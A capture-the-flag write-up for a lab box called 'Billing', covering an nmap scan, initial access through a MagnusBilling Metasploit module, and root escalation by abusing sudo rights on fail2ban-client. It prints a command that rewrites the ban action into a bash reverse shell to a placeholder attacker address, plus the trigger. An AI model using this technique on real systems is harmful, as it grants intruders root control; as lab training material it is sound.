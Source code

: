 # **BILLING**

***
Difficulty: Easy

![](https://i.imgur.com/b0ZPJey.png)

***

***
I started this box with `Pull up` by Legendary ZerryDL after been away from boxes for a while due to personal reasons

<iframe style="border-radius:12px" src="https://open.spotify.com/embed/track/4bMbA8VYJMC2QKJYH8PDpr?utm_source=generator" width="100%" height="352" frameBorder="0" allowfullscreen="" allow="autoplay; clipboard-write; encrypted-media; fullscreen; picture-in-picture" loading="lazy"></iframe>

***


Another night to pull up againn, We go againnnnn

Ion know what this box is all about what we are about to find out innit 

As we know the first thing is to get our nmap rolling 

```
nmap -p- -T4 -v --min-rate=1000 -sCV 10.10.228.118 -oN nmap.txt -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-01 21:09 EDT
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 21:09
Completed NSE at 21:09, 0.00s elapsed
Initiating NSE at 21:09
Completed NSE at 21:09, 0.00s elapsed
Initiating NSE at 21:09
Completed NSE at 21:09, 0.00s elapsed
Initiating SYN Stealth Scan at 21:09
Scanning biling.thm (10.10.228.118) [65535 ports]
Discovered open port 22/tcp on 10.10.228.118
Discovered open port 80/tcp on 10.10.228.118
Discovered open port 3306/tcp on 10.10.228.118
Increasing send delay for 10.10.228.118 from 0 to 5 due to max_successful_tryno increase to 5
Increasing send delay for 10.10.228.118 from 5 to 10 due to max_successful_tryno increase to 6
Warning: 10.10.228.118 giving up on port because retransmission cap hit (6).
SYN Stealth Scan Timing: About 41.60% done; ETC: 21:10 (0:00:44 remaining)
Discovered open port 5038/tcp on 10.10.228.118
Completed SYN Stealth Scan at 21:11, 87.03s elapsed (65535 total ports)
Initiating Service scan at 21:11
Scanning 4 services on biling.thm (10.10.228.118)
Completed Service scan at 21:11, 7.01s elapsed (4 services on 1 host)
NSE: Script scanning 10.10.228.118.
Initiating NSE at 21:11
Completed NSE at 21:11, 5.33s elapsed
Initiating NSE at 21:11
Completed NSE at 21:11, 1.07s elapsed
Initiating NSE at 21:11
Completed NSE at 21:11, 0.01s elapsed
Nmap scan report for biling.thm (10.10.228.118)
Host is up (0.23s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
| http-title:             MagnusBilling        
|_Requested resource was http://biling.thm/mbilling/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 21:11
Completed NSE at 21:11, 0.01s elapsed
Initiating NSE at 21:11
Completed NSE at 21:11, 0.01s elapsed
Initiating NSE at 21:11
Completed NSE at 21:11, 0.01s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.13 seconds
           Raw packets sent: 86086 (3.788MB) | Rcvd: 76850 (3.255MB)


```


Lots of endpoints are located hereee, this is looking good alreadyyyy

From the nmap scan, we discovered that they are 3 ports opened (22, 80, 3395, 5038)

Let us start our directory search too while enumerating the website

![](https://i.imgur.com/qDY7x28.png)


Now over to the website

![](https://i.imgur.com/wBc6AO8.png)


Let us go back to our directory fuzzing

![](https://i.imgur.com/9bCVgpV.png)

From there we were able to find the endpoint /robots.txt which still takes us to the login page

So, let us try to get another thing

Let us try enumerating the mysql

Enumerating this left us with no luck either.......

So I just went ahead googling to see if there is and exploit for magnus billing CMS. Lo and behold there is an exploit for that...

We are going to be using metasplot this time around

![](https://i.imgur.com/Rc91tj1.png)


Bankaiii, we have initial access as seen below

![](https://i.imgur.com/mXjjRs4.png)

Let us now go to find user flag

![](https://i.imgur.com/GZyX84g.png)

Our work is halfdone, now let us go all in for the root flag

So, now in this part root is kinda trickyyyyy but imma still explain to the best of my knowledge

So after getting user flag, the first thing I always do is to try `sudo -l` to have a list of things that this user can do and this time was not in any way different

After running the command, the following was that I got

```
Matching Defaults entries for asterisk on Billing: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin 

Runas and Command-specific defaults for asterisk: Defaults!/usr/bin/fail2ban-client !requiretty 

User asterisk may run the following commands on Billing: (ALL) NOPASSWD: /usr/bin/fail2ban-client

```

From here all I knew was to abuse fail2ban to pop root shell and https://juggernaut-sec.com/fail2ban-lpe/ was the blog that helped me out

With all of this information, I crafted the following command:
```
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'"

```

This command modifies the `actionban` rule for the `sshd` jail, replacing the default IP banning action with a reverse shell payload. Normally, Fail2Ban executes the `iptables-multiport` action to ban IP addresses attempting brute-force attacks. However, by injecting my command, I ensure that instead of banning an IP, Fail2Ban will execute my reverse shell.

After modifying the `actionban` rule, I set up a listener on my machine to catch the reverse shell connection.

Lastly, I executed the following command:
```
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```

This command is typically used to manually ban an IP address using Fail2Ban. However, since I had previously modified the `actionban` rule to execute my reverse shell payload instead of banning an IP, running this command triggered the exploit. I used `127.0.0.1` because it is the **localhost IP address**, meaning the machine essentially "bans itself." Since Fail2Ban is configured to execute the `actionban` command whenever an IP is banned, triggering the ban on `127.0.0.1` ensures that the malicious command runs immediately on the same system without external dependencies.

BecauseFail2Ban runs with elevated privileges, the shell was spawned with **root** access, successfully granting me full control over the system.

![](https://i.imgur.com/posPY62.png)

With the root shell successfully obtained, I navigated to the `/root` directory and accessed the final flag!

![](https://i.imgur.com/VlS9ATs.png)


<button onclick="window.location.href='https://R3D-Z3E.github.io';">Back To Home螥</button>
